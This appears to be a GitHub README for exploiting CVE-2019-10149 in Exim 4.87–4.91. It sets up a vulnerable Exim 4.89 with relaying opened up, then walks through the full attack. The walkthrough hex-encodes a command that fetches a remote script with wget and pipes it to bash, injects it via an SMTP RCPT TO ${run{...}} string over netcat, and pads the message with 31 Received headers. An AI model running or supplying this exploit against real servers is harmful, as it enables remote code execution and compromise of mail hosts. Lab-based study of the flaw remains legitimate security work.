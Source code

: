 # CVE-2019-10149 - Exim 4.87 < 4.91
Instructions for installing a vulnerable version of Exim and its expluatation
Tested on Linux Ubuntu 16.04, Exim 4.89

## Exim installation
Download and extract exim version 4.89
 * wget https://github.com/Exim/exim/releases/download/exim-4_89/exim-4.89.tar.xz && tar -xvf exim-4.89.tar.xz

Move into the extracted folder
 * cd exim-4.89/

Copy and modify required config files
 * sed -e 's,^EXIM_USER. * $,EXIM_USER=exim,' Local/Makefile src/EDITME > Local/Makefile

 * cp exim_monitor/EDITME Local/eximon.conf

Create exim user and group
 * sudo groupadd -g 31 exim 

 * sudo useradd -d /dev/null -c "Exim Daemon" -g exim -s /bin/false -u 31 exim

Install dependencies
 * sudo apt-get update
 * sudo apt-get install -y make build-essential libpcre3-dev libdb-dev libxt-dev libxaw7-dev

Install exim 4.89
 * sudo make install

Edit /usr/exim/configure to allow relaying so we can exploit without waiting 7 days
 * sudo sed -iz 's/domainlist relay_to_domains =/domainlist relay_to_domains =  * /' /usr/exim/configure
 * sudo sed -i '/hostlist   relay_from_hosts = localhost/c\hostlist   relay_from_hosts = 0.0.0.0' /usr/exim/configure
 * sudo sed -i '/require verify = recipient/c\#require verify = recipient' /usr/exim/configure

Run exim as user exim
 * sudo -H -u exim /usr/exim/bin/exim -bd -d-receive    
	
## Crafting the exploit
Convert your shell command to hex. Example:
 * /bin/sh -c “wget https://raw.githubusercontent.com/darsigovrustam/CVE-2019-10149/master/RemoteConnection.sh" -O - | bash
 * \x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fraw\x2Egithubusercontent\x2Ecom\x2Fdarsigovrustam\x2FCVE\x2D2019\x2D10149\x2Fmaster\x2FRemoteConnection\x2Esh\t-O\t-\t\x7C\tbash\x22\
	
	
Table for example:
 * \t-c\ = -c
 * \t\= space
 * x20 = space
 * x7C = |
 * x2F = /
 * x3A = :
 * x2D = -
 * x3E = >
 * x26 = &
 * x22 = "
 * x2E = .
	
## Exploit usage
First we use nc to start a connection to the server.
 * nc 192.168.0.168 25
 
Once we are connected we say HELO.
 * helo localhost
 * (Answer: 250 exim Hello localhost [192.168.0.168])

Next, we set the sender address to blank.
 * mail from:<>
 * (Answer: 250 OK)

Then we set out recipient address with the payload we made earlier by inserting our desired command where the ellipses is rcpt to:<${run{...}}@localhost>.
 * rcpt to:<${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost>	
 * (Answer: 250 Accepted)

And finally We first type DATA, followed by 31 lines, a blank line, and a period.
 * DATA
 * Received: 1
 * Received: 2
 * Received: 3
 * Received: 4
 * Received: 5
 * Received: 6
 * Received: 7
 * Received: 8
 * Received: 9
 * Received: 10
 * Received: 11
 * Received: 12
 * Received: 13
 * Received: 14
 * Received: 15
 * Received: 16
 * Received: 17
 * Received: 18
 * Received: 19
 * Received: 20
 * Received: 21
 * Received: 22
 * Received: 23
 * Received: 24
 * Received: 25
 * Received: 26
 * Received: 27
 * Received: 28
 * Received: 29
 * Received: 30
 * Received: 31
 * 
 * .
